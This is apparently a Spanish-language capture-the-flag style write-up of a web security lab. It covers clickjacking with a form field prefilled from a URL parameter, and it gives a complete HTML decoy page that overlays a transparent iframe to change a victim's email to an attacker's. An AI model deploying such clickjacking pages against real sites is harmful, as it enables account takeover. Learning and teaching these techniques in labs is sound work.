




## Clickjacking with prefilled form input

Algunos sitios web que requieren completar y enviar formularios permiten rellenar previamente los campos del formulario utilizando parámetros GET antes de enviarlo. Otros sitios web pueden requerir texto antes de enviar el formulario. Dado que los valores GET forman parte de la URL, la URL de destino se puede modificar para incorporar los valores que elija el atacante y el botón «enviar» transparente se superpone en el sitio señuelo, como en el ejemplo básico de clickjacking.

## Lab: Clickjacking with form input data prefilled from a URL parameter



En este laboratorio se necesita cambiar el correo el usuario victima



Por lo que primero, debemos entender que se tiene un `input` en el cual debe contener el valor o el email del atacante. Lo que se hizo fue poner en el url `email=attacker@email.com` y este es reflejado en nuestro input.

```c
https://0a14001d03e8592681401ba3000300d3.web-security-academy.net/my-account?email=attacker@email.com
```



Una entendido esto, podemos iniciar a cambiar los valores de nuestro código html para que se ve y posicione nuestro `Click me` en el lugar correcto.



```c
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 515px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:470px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a14001d03e8592681401ba3000300d3.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
</body>
</html>
```

luego debemos de cambiar la opacidad y enviar a la victima